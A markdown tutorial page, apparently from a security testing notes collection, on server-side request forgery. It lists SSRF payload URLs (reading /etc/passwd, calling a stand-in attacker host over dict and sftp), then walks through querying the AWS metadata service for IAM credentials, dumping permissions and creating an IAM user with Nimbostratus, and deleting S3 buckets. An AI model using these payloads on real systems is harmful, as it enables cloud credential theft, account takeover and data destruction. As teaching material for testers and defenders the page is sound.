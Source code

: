 # Server-side request forgery

Server-side request forgery \(SSRF\) exploits the trusted relationship between a web server and other backend systems which are not normally accessible to an attacker \(e.g. because of firewalls or application rules\). They are particularly dangerous in cloud infrastructure like AWS, because SSRF allows an attacker to query internal services like [Amazon's metadata API](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) for credentials and other sensitive data.

## Techniques

### Basic

Generally, you'll be looking for poorly-sanitized parameters which accept URLs, either in `GET` or `POST` requests. Less well-known locations for SSRF include: 

* HTTP Referer header
* Partial URLs in requests \(assembled server-side\)
* [SSRF via XXE](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks)

In the examples below, `localhost` is used in the URL to access data and services which are only accessible via the local network.

Example `GET` request with a vulnerable open redirect:

```text
http://[host]/page?url=http://localhost/api/getuser/id/1
```

Example `POST` request with a similarly unsanitized URL parameter:

```text
POST /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

url=http://localhost:1234
```

Some SSRF attacks will return a response that you can see on the vulnerable website, but others may be [blind](https://portswigger.net/web-security/ssrf/blind).

You can also test protocols other than HTTP:

```text
http://[host]/page.php?url=file:///etc/passwd
http://[host]/page.php?url=dict://[evilhost]:1234/
http://[host]/page.php?url=sftp://[evilhost]:1234/
http://[host]/page.php?url=ldap://localhost:1234/%0astats%0aquit
```

### Attacking AWS with SSRF

Amazon's AWS has an internal metadata service which can be queried from any instance. Attackers can use SSRF vulnerabilities to retrieve instance information and in some cases make changes to the infrastructure. [Amazon's CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-ec2-instances.html) performs a similar function.

There are two metadata standards for the AWS API - the newest one requires you to generate a short-term token before issuing commands. However, the older non-token version does not seem to be going away, so you could simply use `curl http://169.254.169.254/whatever` to get the same data.

The following command from [Amazon's metadata documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) allows you to generate a 6-hour token, save it in a variable and display the top-level metadata items:

```text
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/
```

The top-level metadata items will look something like this: 

```text
ami-id
ami-launch-index
...
public-keys/
security-groups
```

From there, you can make calls to the API to view each of the metadata items in detail. 

For example, the following command lets you view startup scripts for the instance, which may reveal credentials or paths to sensitive S3 buckets:

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/user-data/
```

To view roles for the instance:

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

Once you have a role name, you can request credentials for that role: 

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/SomeRole

{
  "Code" : "Success",
  "LastUpdated" : "2019-12-03T18:08:16Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "V...",
  "Token" : "SomeBase64==",
  "Expiration" : "2019-12-04T00:17:43Z"
}
```

At this point you may want to consider automated AWS metadata enumeration tools like [Nimbostratus](https://andresriancho.github.io/nimbostratus/) to determine the permissions available to a role:

```text
sudo python nimbostratus dump-permissions --access-key=ASIA... --secret-key=V...
```

You can also attempt to create a new user, as a proof-of-concept:

```text
sudo python nimbostratus create-iam-user --access-key=ASIA... --secret-key=p...
```

#### Enumerating S3 buckets

The [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3.html) can be used to poke around connected S3 buckets. Some useful commands:

```text
aws s3 mb s3://bucket-name            # create a bucket
aws s3 ls                             # list buckets
aws s3 ls s3://bucket-name            # list things in a bucket
aws s3 rb s3://bucket-name --force    # delete bucket + contents
```

## Further reading

* [SSRF: Web Security Academy](https://portswigger.net/web-security/ssrf)
* [SSRF: types and exploits](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)
* [SSRF and the CapitalOne breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [Nimbostratus: tools for fingerprinting and exploiting Amazon](https://andresriancho.github.io/nimbostratus/)
* [Pacu: Amazon exploitation framework](https://github.com/RhinoSecurityLabs/pacu)
* [SSRF payloads for many cloud providers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

